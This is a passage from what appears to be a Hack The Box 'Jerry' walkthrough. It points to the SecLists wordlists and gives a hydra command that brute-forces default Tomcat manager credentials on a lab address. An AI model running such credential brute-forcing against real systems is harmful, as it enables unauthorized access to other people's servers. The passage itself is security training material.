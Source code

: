 <img src="/img/jerry-htb/user-pass.PNG" alt="Getting-gz" width="800" height="440">

use passwords in seclist `https://github.com/danielmiessler/SecLists`
```
find . | grep -i tomcat
```

<img src="/img/jerry-htb/passs.PNG" alt="Getting-gz" width="800" height="440">


## brute force
use hydra to brute force 
```
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```

